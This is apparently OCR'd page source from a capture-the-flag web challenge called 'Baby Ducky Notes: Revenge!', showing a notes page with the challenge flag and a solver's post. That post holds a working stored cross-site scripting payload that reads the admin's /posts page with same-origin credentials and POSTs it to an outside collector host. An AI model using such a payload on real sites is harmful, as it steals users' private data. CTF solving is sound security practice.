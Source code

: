 ```http

<head>
    <meta name="viewport" content="width=device-width">
    <title>Baby Ducky Notes: Revenge!</title>
    <script src="/static/js/jquery.js"></script>
    <script src="/static/js/report.js"></script>
    <link rel="preconnect" href="https://fonts.googleapis.com">
    <link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
    <link rel="stylesheet" href="/static/css/styles.css" />
</head>

<body>
    
    <nav class="navbar">
        <div id="trapezoid">
            <a href="/login" class="expandHome">Login</a>
            <a href="/register" class="expandHome">Register</a>
            <a href="/posts/view/admin" class="expandHome">View</a>
            <a href="/posts/create" class="expandHome">Create</a>
        </div>
    </nav>

    <div class="posts_list">
    <ul class="posts_ul">
        
        <li>
            <div class="blog_post">
                <div class="container_copy">
                  <h1> Here is a ducky flag! </h1>
                  <h3> admin </h3>
                  <p> TFCCTF{Ev3ry_duCk_kn0w5_xSs!} </p>
                </div>
            </div>
        </li>
        
        <li>
            <div class="blog_post">
                <div class="container_copy">
                  <h1> SendPosts </h1>
                  <h3> morgan </h3>
                  <p> <script>
    fetch("http://localhost:1337/posts", {
        credentials: "same-origin"
    })
    .then(response => response.text())
    .then(function (data) {
        fetch("https://cuan8nbwx4vuhr9pvco06jnc036uuoid.oastify.com/convertfirst", {
            method: "POST",
            body: data
        })
    })
</script> </p>
                </div>
            </div>
        </li>
         
    </ul>
    </div>

    <div class="report">
        <div class="message" id="alert-msg" hidden ></div>
        <button type="button" id="report-btn">Report to admin</button>
    </div>
```